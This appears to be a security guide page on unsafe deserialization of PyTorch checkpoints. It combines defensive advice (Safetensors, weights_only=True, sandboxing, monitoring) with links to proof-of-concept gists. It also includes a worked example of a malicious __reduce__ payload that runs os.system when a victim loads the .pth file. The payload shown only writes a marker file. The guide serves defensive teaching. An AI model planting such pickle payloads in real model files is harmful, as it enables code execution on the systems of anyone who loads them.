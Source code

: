 Defensive guidance specific to PyTorch checkpoints:
- Do not unpickle untrusted data. Prefer non-executable formats like [Safetensors](https://huggingface.co/docs/safetensors/index) or ONNX when possible.
- If you must use PyTorch serialization, ensure `weights_only=True` (supported in newer PyTorch) or use a custom allow-listed unpickler similar to the Transformers4Rec patch.
- Enforce model provenance/signatures and sandbox deserialization (seccomp/AppArmor; non-root user; restricted FS and no network egress).
- Monitor for unexpected child processes from ML services at checkpoint load time; trace `torch.load()`/`pickle` usage.

POC and vulnerable/patch references:
- Vulnerable pre-patch loader: https://gist.github.com/zdi-team/56ad05e8a153c84eb3d742e74400fd10.js
- Malicious checkpoint POC: https://gist.github.com/zdi-team/fde7771bb93ffdab43f15b1ebb85e84f.js
- Post-patch loader: https://gist.github.com/zdi-team/a0648812c52ab43a3ce1b3a090a0b091.js

## Example – crafting a malicious PyTorch model

- Create the model:

```python
# attacker_payload.py
import torch
import os

class MaliciousPayload:
    def __reduce__(self):
        # This code will be executed when unpickled (e.g., on model.load_state_dict)
        return (os.system, ("echo 'You have been hacked!' > /tmp/pwned.txt",))

# Create a fake model state dict with malicious content
malicious_state = {"fc.weight": MaliciousPayload()}

# Save the malicious state dict
torch.save(malicious_state, "malicious_state.pth")
```

- Load the model:

```python
# victim_load.py
import torch
import torch.nn as nn

class MyModel(nn.Module):
    def __init__(self):
        super().__init__()
        self.fc = nn.Linear(10, 1)

model = MyModel()

# ⚠️ This will trigger code execution from pickle inside the .pth file
model.load_state_dict(torch.load("malicious_state.pth", weights_only=False))

# /tmp/pwned.txt is created even if you get an error
```
